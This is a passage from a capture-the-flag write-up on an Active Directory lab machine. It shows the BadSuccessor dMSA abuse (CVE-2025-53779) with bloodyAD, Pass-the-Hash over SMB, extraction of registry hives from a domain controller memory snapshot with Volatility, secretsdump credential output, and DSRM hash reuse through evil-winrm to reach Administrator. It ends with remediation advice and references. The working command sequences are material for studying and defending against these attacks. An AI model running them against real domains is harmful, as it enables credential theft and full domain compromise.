    dGd0Gw5DSEVDS1BPSU5ULkhUQqOCBF8wggRboAMCARKhAwIBAqKCBE0EggRJ/zZoHA6CsuYE2Iis4pEf4HEHEJLS7upi2OX6o5Cn
    /TPb066qLqYdSl2GKh3uxbynr08ag5Ujtr0j2E2WcVNDI/9+6DaOE+d3ctyVeVxZUjdG4Nv9Ub5Cxw/XxJkVvUcCziuGzjiCygyI
    Uhi3YyOAlIedLqTbfsLHuWkkmUlLkt9DK0riv7Xglue40ls+j9zQKhdQzGZgPa2GmWzCkvOVn9y96VADuxMwi8BtsU/cKWLR7B6M
    RfY6z7+L2vnBFL827jUdiRNnniBCPmWktCe7nJ36lrs/3craMsnjy9IK3Gcdi9Teq7C5n4DzHbD+2H+lZdY6ZYawomTk3BOLGc5x
    wHMnOg6+5C01LgYTyRMBieUS0q8HikvT9917qu24qg4tgPwUa1ooW9m1DRkUdRoxruWHXbQWhKm7uz5iMloRKaQkAWEOremPqZkQ
    IllCc1fKJTdGlAX/sWF77T76u7CYI4ZlZXBBRmNqp9LektKAOj/vrwHIKB7ob4dcjZ6RU/jlc0uaDmXEL1gdz9+T+//RtWEFbIek
    yBTp48M/xalV7WgWuV5Pa8Qc4oQLQCyz4F4/zyfc7zu90f+Rm9utn7Z+Q6HERXQ9bCttREYVcxN8FZOpwPZR4U1XrGVDlTFe49SG
    WaWWLZxe8XLEVEP2m/ChAOFZgr42IJIaaCa5Pmi94koS4B95O3WRaBqorRoNjmoWDrybkl320ST4Ps58gvRubDg7bI1IC/gdY3dJ
    9Rab9JAZo+NRiv07am4YgEZhRQqq2TWlzLsT+p9lmxkt8WRpJYPVrG2saQKp39z5TieVJQ+svLcG+9zco+rNTmTGbQFVmtH3S+23
    RGF2/SWS7G1w8gSuDvN+x9XHBalWJ2tM8lJIlcvhpL1RABW6IHue0pBwf4MsNlwbV0k6lz2iimsx4zv6qvur3pCeQABZH4i08Igo
    lCTppXi914OLiEg8T7qAQnOkBp/jzpCAk7mWxp+blLWLuwv4UVEdePUWwQSUDI9BwskbI8UARO9dYWuqXwXJpYSq+aMqSGgGv6ar
    y/FwuuAopXA4faBWZLYEIoh/BUgJ+LmFQWtyQyK3+bUID0KQq8HksSxc5AmQ5XN3vVHY1F7JwJdw0K/OCX3N45oUV/6TMwG1JxAT
    3XkLpqQT1aIf8a2JAKdGFeF2kMOB2A683kNvJgHPkRUt/CgfyukNGww8NRlZW5PHW7sh8vxcl+rdwm3bNedocE2plJUa5rZerFqp
    q5x+0bYEMIrGwmG/2eOClyX8lHD4wo3XvBPp8bVRV5LLozAWf3ba6S/xiiWSZts7GvQEAGPa+Uey9FLPylFZGW8CgT1QccZti7dZ
    Xx70k/OadppQGo3c9bSNMzNThb0Lv9ZlcJ5+ENzVeIjMNp1JO6ga82hp3MbBzxNQNBpw0lPmRY0Eau1v6Awa8w2dy6cEEqnzuz6v
    5J8qfqIlhHIlSd24vEmg35ujgfswgfigAwIBAKKB8ASB7X2B6jCB56CB5DCB4TCB3qArMCmgAwIBEqEiBCA8eQYnIHaUITkVomcl
    zEayntVJg+8+xX2ZuOj53M7tRaEQGw5jaGVja3BvaW50Lmh0YqITMBGgAwIBAaEKMAgbBlB3bmVkJKMFAwMAYKGkERgPMjAyNjA3
    MDEwMjEyNTVapREYDzIwMjYwNzAxMDIzMTI1WqYRGA8yMDI2MDcwMTEyMTI1NVqnERgPMjAyNjA3MDgwMjEyNTVaqBAbDkNIRUNL
    UE9JTlQuSFRCqSMwIaADAgECoRowGBsGa3JidGd0Gw5DSEVDS1BPSU5ULkhUQg==
[+] dMSA TGT stored in ccache file Pwned_a6.ccache

dMSA current keys found in TGS:
AES256: 3cec74890c186f7a17fa81ac4bf1540b89f1f78b98da87cfd5046832ba0a03c9
AES128: 5f82eaf8038436c7ae8c489fa20c896b
RC4: f77cfcff27ff3efb45f70b8b2d0b28d9

dMSA previous keys found in TGS (including keys of preceding managed accounts):
RC4: e16081eb077aca74bdbf8af12af43ac9
```

`bloodyAD`'s `add badSuccessor` module automates the full attack chain in one step: it creates the dMSA (`Pwned$`) inside `OU=DMSAHolder`, sets `msDS-ManagedAccountPrecededByLink` to point at `svc_deploy` and marks `msDS-DelegatedMSAState` as migrated, then immediately requests a TGT for the new dMSA. Because the KDC believes `Pwned$` legitimately took the place of `svc_deploy`, the resulting TGS response contains two key sets inside the `KERB-DMSA-KEY-PACKAGE`: the **current keys**, belonging to the freshly created dMSA itself, and the **previous keys**, which, despite `Pwned$` having no real migration history, the KDC fills in with `svc_deploy`'s actual, currently-valid Kerberos keys. The disclosed `RC4` value is identical to `svc_deploy`'s NTLM hash, so it can be used directly for Pass-the-Hash:

```
svc_deploy:e16081eb077aca74bdbf8af12af43ac9
```

Re-running the same `get writable` enumeration after this step confirms the new dMSA now exists and is fully owned by `ryan.brooks`:

```
distinguishedName: CN=Pwned,OU=DMSAHolder,DC=checkpoint,DC=htb
permission: CREATE_CHILD; WRITE
DACL: WRITE
```

As the creator of `Pwned$`, `ryan.brooks` automatically receives `WRITE` and `WRITE DACL` over the object it just created, which is exactly the access needed to set `msDS-ManagedAccountPrecededByLink` and `msDS-DelegatedMSAState` in the first place, without ever needing any pre-existing rights over `svc_deploy` itself.

### Domain Controller Memory Snapshot

The recovered hash is checked against SMB shares:

```
nxc smb dc01.checkpoint.htb -u svc_deploy -H e16081eb077aca74bdbf8af12af43ac9 --shares                                                                                                                       
SMB         10.129.37.153   445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:False) 
SMB         10.129.37.153   445    DC01             [+] checkpoint.htb\svc_deploy:e16081eb077aca74bdbf8af12af43ac9 
SMB         10.129.37.153   445    DC01             [*] Enumerated shares
SMB         10.129.37.153   445    DC01             Share           Permissions     Remark
SMB         10.129.37.153   445    DC01             -----           -----------     ------
SMB         10.129.37.153   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.37.153   445    DC01             C$                              Default share
SMB         10.129.37.153   445    DC01             DevDrop                         VS Code extensions share for approved .vsix packages compatible with VS Code engine 1.118.0
SMB         10.129.37.153   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.37.153   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.37.153   445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.37.153   445    DC01             VMBackups       READ            
```

`svc_deploy` has read access to `VMBackups`. Browsing the share discloses a full snapshot of a backed-up Windows Server VM, including its raw memory file (`.vmem`):

```
smbclient //dc01.checkpoint.htb/VMBackups --user=svc_deploy --pw-nt-hash e16081eb077aca74bdbf8af12af43ac9
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat May  9 13:15:22 2026
  ..                                  D        0  Sat May  9 10:42:27 2026
  NightlyBackup_2024-11-01            D        0  Sat May  9 12:54:19 2026

                10459391 blocks of size 4096. 2484254 blocks available
smb: \> cd NightlyBackup_2024-11-01
smb: \NightlyBackup_2024-11-01\> ls
  .                                   D        0  Sat May  9 12:54:19 2026
  ..                                  D        0  Sat May  9 13:15:22 2026
  memory forensics                    D        0  Sat May  9 13:12:44 2026

                10459391 blocks of size 4096. 2484254 blocks available
smb: \NightlyBackup_2024-11-01\> cd "memory forensics"
smb: \NightlyBackup_2024-11-01\memory forensics\> ls
  .                                   D        0  Sat May  9 13:12:44 2026
  ..                                  D        0  Sat May  9 12:54:19 2026
  Windows Server 2019-000001.vmdk      A 106496000  Sat May  9 22:45:22 2026
  Windows Server 2019-Snapshot1.vmem      A 2147483648  Sat May  9 22:40:36 2026
  Windows Server 2019-Snapshot1.vmsn      A 138164859  Sat May  9 22:40:36 2026
  Windows Server 2019.nvram           A   270840  Sat May  9 22:39:00 2026
  Windows Server 2019.scoreboard      A     7642  Sat May  9 22:45:22 2026
  Windows Server 2019.vmdk            A 10199695360  Sat May  9 22:39:00 2026
  Windows Server 2019.vmsd            A      502  Sat May  9 22:39:00 2026
  Windows Server 2019.vmx             A     2749  Sat May  9 22:45:22 2026
  Windows Server 2019.vmxf            A      274  Sat May  9 22:22:44 2026

                10459391 blocks of size 4096. 2484254 blocks available
smb: \NightlyBackup_2024-11-01\memory forensics\> get "Windows Server 2019-Snapshot1.vmem"
getting file \NightlyBackup_2024-11-01\memory forensics\Windows Server 2019-Snapshot1.vmem of size 2147483648 as Windows Server 2019-Snapshot1.vmem (3231.9 KiloBytes/sec) (average 3231.9 KiloBytes/sec)
```

A `.vmem` file is a raw capture of a VM's physical RAM. Since the snapshot is of a domain controller, it can contain LSASS secrets, registry hives, and cached credential material.

### Registry Hive Extraction with Volatility 3

[Volatility 3](https://volatilityfoundation.org) is an open-source memory forensics framework that can parse a raw memory image and reconstruct OS structures, including the in-memory copies of the registry hives.

```
pipx install volatility3
  installed package volatility3 2.28.0, installed using Python 3.13.9
  These apps are now globally available
    - vol
    - volshell
done! ✨ 🌟 ✨
```

The `windows.registry.hivelist.HiveList` plugin enumerates every registry hive mapped in memory and, with `--dump`, writes each one back out to disk as a standalone hive file:

```
vol -f "Windows Server 2019-Snapshot1.vmem" windows.registry.hivelist.HiveList --dump   
Volatility 3 Framework 2.28.0
WARNING  volatility3.framework.layers.vmware: No metadata file found alongside VMEM file. A VMSS or VMSN file may be required to correctly process a VMEM file. These should be placed in the same directory with the same file name, e.g. Windows%20Server%202019-Snapshot1.vmem and Windows%20Server%202019-Snapshot1.vmss.
Progress:  100.00               PDB scanning finished                        
Offset  FileFullPath    File output

0xc30a2fe34000          registry.NONAME.0xc30a2fe34000.hive
0xc30a2fe38000  \REGISTRY\MACHINE\SYSTEM        registry.SYSTEM.0xc30a2fe38000.hive
0xc30a2fecf000  \REGISTRY\MACHINE\HARDWARE      registry.HARDWARE.0xc30a2fecf000.hive
0xc30a3205d000  \SystemRoot\System32\config\DRIVERS     registry.DRIVERS.0xc30a3205d000.hive
0xc30a32060000  \Device\HarddiskVolume2\EFI\Microsoft\Boot\BCD  registry.BCD.0xc30a32060000.hive
0xc30a3205b000  \SystemRoot\System32\Config\SOFTWARE    registry.SOFTWARE.0xc30a3205b000.hive
0xc30a3278c000  \SystemRoot\System32\Config\DEFAULT     registry.DEFAULT.0xc30a3278c000.hive
0xc30a3278e000  \SystemRoot\System32\Config\SAM registry.SAM.0xc30a3278e000.hive
0xc30a32789000  \SystemRoot\System32\Config\SECURITY    registry.SECURITY.0xc30a32789000.hive
0xc30a32a7c000  \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT        registry.NTUSERDAT.0xc30a32a7c000.hive
0xc30a32ba0000  \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT  registry.NTUSERDAT.0xc30a32ba0000.hive
0xc30a32d1d000  \SystemRoot\System32\Config\BBI registry.BBI.0xc30a32d1d000.hive
0xc30a35390000  \??\C:\Windows\System32\config\COMPONENTS       registry.COMPONENTS.0xc30a35390000.hive
0xc30a37244000  \??\C:\Users\Administrator\ntuser.dat   registry.ntuserdat.0xc30a37244000.hive
0xc30a36e3f000  \??\C:\Users\Administrator\AppData\Local\Microsoft\Windows\UsrClass.dat registry.UsrClassdat.0xc30a36e3f000.hive
...
```

`SAM`, `SYSTEM`, and `SECURITY` hives can be used with `secretsdump` to recover local account hashes and LSA secrets offline.

### Local Secrets Extraction

```
impacket-secretsdump -sam lsass_dump/registry.SAM.0xc30a3278e000.hive -system lsass_dump/registry.SYSTEM.0xc30a2fe38000.hive -security registry.SECURITY.0xc30a32789000.hive  LOCAL 
Impacket v0.14.0.dev0+20251120.95652.9c2d8b61 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x75247bc64fa0086d2c98744d4bcd53f5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f29e9c014295b9b32139b09a2790be3b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:28f8d934dee90b2ec824351cb0844479:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x914b2bd39adf134401ec6eceb08f8ec131d2ecbd
dpapi_userkey:0x77d90ebac2487f870a26e4776c72b4509b06dd1b
[*] NL$KM 
 0000   0E 42 1C 8E 38 4F 72 E3  81 69 DD 54 E2 92 55 FA   .B..8Or..i.T..U.
 0010   6C 31 99 78 31 4C 9E 6A  7F B9 F9 26 06 AC 7B FF   l1.x1L.j...&..{.
 0020   EB 8A 95 09 44 6E 3A 52  62 B1 C2 F7 66 B0 C3 53   ....Dn:Rb...f..S
 0030   67 30 29 E7 A3 F3 77 6A  88 69 70 A6 9A B4 6F 40   g0)...wj.ip...o@
NL$KM:0e421c8e384f72e38169dd54e29255fa6c319978314c9e6a7fb9f92606ac7bffeb8a9509446e3a5262b1c2f766b0c353673029e7a3f3776a886970a69ab46f40
[*] Cleaning up... 
```

On a Domain Controller, the local SAM database does not store regular domain accounts, every domain identity lives in the NTDS database instead. The only account that exists in a DC's local SAM is the special **DSRM (Directory Services Restore Mode) Administrator**, a built-in local account used to log on when AD DS is offline for disaster recovery. Its SID and RID (`500`) coincide with the conventional "local Administrator" entry, which is why it is displayed as `Administrator:500:...:f29e9c014295b9b32139b09a2790be3b`.

### DSRM Pass-the-Hash to Domain Administrator

By default, the DSRM Administrator account can only authenticate locally, and during normal operation its password is set once at `dcpromo` time and never changes again, making it irrelevant for network access. However, Windows Server 2008 and later support a registry value, `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior`, that controls this behavior:

|Value|Behavior|
|---|---|
|`0` (default)|DSRM account usable only when booted into DSRM|
|`1`|DSRM account usable if the AD DS service is stopped|
|`2`|DSRM account always usable, including for **network logons** while AD DS is fully running|

When set to `2`, the DSRM Administrator becomes a fully functional local administrator account reachable over SMB/WinRM/RPC like any other. In this environment, the DC was additionally configured to keep the DSRM password **synchronized with the domain `Administrator` account's password**. As a result, the hash recovered from the offline memory snapshot is valid for an interactive, network-authenticated logon as the real domain Administrator:

```
evil-winrm -i checkpoint.htb -u Administrator -H f29e9c014295b9b32139b09a2790be3b
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
checkpoint\administrator
```

---
## Root Flag

```
*Evil-WinRM* PS C:\users> ls


    Directory: C:\users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         5/25/2026   6:26 PM                Administrator
d-----         5/25/2026   6:34 PM                max.palmer
d-r---          5/9/2026  12:30 AM                Public
d-----         6/30/2026   7:11 PM                ryan.brooks


*Evil-WinRM* PS C:\users> cd max.palmer
*Evil-WinRM* PS C:\users\max.palmer> cd Desktop
*Evil-WinRM* PS C:\users\max.palmer\Desktop> ls


    Directory: C:\users\max.palmer\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         6/30/2026   7:00 PM             34 root.txt


*Evil-WinRM* PS C:\users\max.palmer\Desktop> type root.txt
10a7************************d48c
```

---

## Remediation

- **AD deleted-object retention:** Avoid granting `WRITE` rights over the `Deleted Objects` container or specific tombstoned objects. Review and restrict delegation on tombstone reanimation, and audit accounts that are deleted and later restored.
- **`DevDrop` share / unsigned `.vsix` packages:** Do not allow write access to a share that is used to upload arbitrary code. Enforce extension signing/allow-listing before a `.vsix` package is installed, and restrict write access on `DevDrop` to a small, audited set of publishers.
- **ACL hygiene on service accounts:** `ryan.brooks` should never have held `WRITE`/`GenericWrite`-class permissions on `svc_deploy`'s AD object (or on the `OU=DMSAHolder` container). Regularly audit ACLs on privileged/service accounts and OUs for unintended delegations using tools such as BloodHound.
- **Kerberos TGT delegation (`tgtdeleg`):** This trick relies on unconstrained delegation being enabled on the Domain Controller's `cifs` SPN, which is the default. Where possible, monitor for and alert on TGS requests carrying delegation flags from non-administrative accounts, since the trick requires no special configuration on the requesting principal.
- **BadSuccessor / CVE-2025-53779:** Patch all Windows Server 2025 Domain Controllers to the August 2025 security update or later. Until patched, restrict `CREATE_CHILD` rights for `msDS-DelegatedManagedServiceAccount` objects to Tier-0 administrators only, and audit every OU in the domain for unexpected dMSA-creation delegations (Akamai published a `Get-BadSuccessorOUPermissions.ps1` auditing script for this purpose). Monitor Directory Service event IDs `5136`/`5137` for changes to dMSA objects and `2946` for dMSA PAC issuance.
- **Backup/VM snapshot exposure:** A raw memory snapshot of a Domain Controller is equivalent to full credential material for that host. `VMBackups` must not be readable by a low-privileged service account; restrict it to dedicated backup administrators and encrypt backups at rest.
- **DSRM Administrator hardening:** Do not set `DsrmAdminLogonBehavior` to `2` (or `1`) unless required, and never synchronize the DSRM password with the domain Administrator account. Where DSRM network logon is required operationally, give each DC a unique, regularly rotated DSRM password and monitor Event ID `4794` for DSRM password resets and `4657` for changes to the `DsrmAdminLogonBehavior` registry value.

---
## References

- [Rubeus – Now With More Kekeo (harmj0y) — `tgtdeleg` / fake delegation TGT trick](https://blog.harmj0y.net/redteaming/rubeus-now-with-more-kekeo/)
- [Akamai — BadSuccessor: Abusing dMSA to Escalate Privileges in Active Directory](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)
- [Wiz — CVE-2025-53779 Vulnerability Database Entry](https://www.wiz.io/vulnerability-database/cve/cve-2025-53779)
- [Help Net Security — Microsoft fixes "BadSuccessor" Kerberos vulnerability (CVE-2025-53779)](https://www.helpnetsecurity.com/2025/08/13/microsoft-fixes-badsuccessor-kerberos-vulnerability-cve-2025-53779/)
- [HackTricks — DSRM Credentials](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dsrm-credentials.html)
- [ADSecurity (Sean Metcalf) — Sneaky Active Directory Persistence #13: DSRM Persistence v2](https://adsecurity.org/?p=1785)
